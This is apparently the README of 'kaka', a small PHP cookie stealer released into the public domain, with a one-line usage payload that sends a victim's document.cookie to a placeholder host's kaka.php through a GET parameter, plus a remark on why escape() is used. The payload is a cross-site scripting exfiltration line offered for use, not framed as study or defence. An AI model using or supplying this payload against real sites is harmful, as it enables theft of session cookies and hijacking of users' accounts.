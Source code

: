 kaka
----
Kaka is cookie in swedish. A minimalistic cookie stealer written in PHP.

usage
-----
"http://host/kaka.php?c="+escape(document.cookie)
	The escape function is to prevent ampersand (&) from splitting into multiple GET variables.

Public domain
-------------
I hereby release this code into the [public domain](https://creativecommons.org/publicdomain/zero/1.0/).

